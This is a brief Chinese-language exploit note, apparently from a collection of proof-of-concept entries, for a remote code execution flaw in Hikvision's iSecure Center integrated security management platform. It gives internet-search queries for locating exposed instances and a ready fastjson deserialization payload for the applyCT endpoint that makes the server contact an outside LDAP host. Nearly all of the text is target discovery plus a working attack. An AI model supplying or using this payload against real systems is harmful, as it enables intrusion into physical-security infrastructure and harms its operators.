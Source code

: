 # HiKVISION 综合安防管理平台 applyCT RCE漏洞

## 网络测绘

fofa: app="HIKVISION-综合安防管理平台"

hunter: app.name="Hikvision 海康威视 iSecure Center"

## POC / EXP

```
# URL
/bic/ssoService/v1/applyCT

# Payload
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.dnstunnel.run","autoCommit":true}}
```